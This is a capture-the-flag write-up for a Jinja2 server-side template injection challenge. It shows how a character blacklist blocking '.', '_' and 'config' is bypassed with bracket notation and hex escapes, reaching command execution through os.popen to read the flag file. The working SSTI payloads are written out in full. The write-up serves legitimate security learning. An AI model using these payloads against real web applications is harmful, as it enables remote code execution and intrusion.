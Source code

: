# 『Jinja ninja v2』
> You think you are worthy enough? i dont think sooooooo :v

author: anarchistx

# 『The challenge』

We're given the challenge of the website. here the challenge:

<img width="1919" height="908" alt="image" src="https://github.com/user-attachments/assets/b85db780-271c-4beb-a456-884ee2fb5cd8" />

Seems nothing different as usual, but lets try!

# 『The challenge』
> Solve by: Lylera_

So this challenge is almost same as the version before. But let me try something.

<img width="972" height="430" alt="image" src="https://github.com/user-attachments/assets/9608c71a-f6ae-4096-ae97-0e43fc2006ad" />

Seems nothing different in here. Let me test my payload.

<img width="901" height="444" alt="image" src="https://github.com/user-attachments/assets/05d2f144-6ab5-41d7-b600-6e8a044b1143" />

Ah i see something content filtered in here. But which one? hmm. let me try different payload like `{{config}}`

# 『The issue』

So i try `{{config}}` but here the result:

<img width="876" height="448" alt="image" src="https://github.com/user-attachments/assets/5c8463f4-d915-4678-be15-784707d49746" />

So we found one. Let test the other! (payload: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

<img width="816" height="450" alt="image" src="https://github.com/user-attachments/assets/ba8e529a-7261-4aca-a9fa-3458c5f23b70" />

Hemm, seems `.` and `_` is getting blacklist. So this is waf ssti. It blacklist `.`, `_`, and `config`. Oke noted

# 『Flag』

So, after finding the issues it getting my conclusion. we can bypass using `[]` and encode to unicode. I found a good website to unicode this one, [here](https://checkserp.com/encode/unicode/)

Try it out. And my command for payload final:
```
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
```

So here the result:

<img width="1051" height="443" alt="image" src="https://github.com/user-attachments/assets/b38711ee-785e-44be-b50f-8763a5a18889" />

After it success, we can use `ls /` and `cat /flag.txt`. here the result

<img width="960" height="446" alt="image" src="https://github.com/user-attachments/assets/9aca379b-78d9-4ecf-90c1-b94417607a88" />

```
Flag: compit{1_gu33ss_u_4r3_w0rthy_en0ugh_g0m3n4s4i}
```
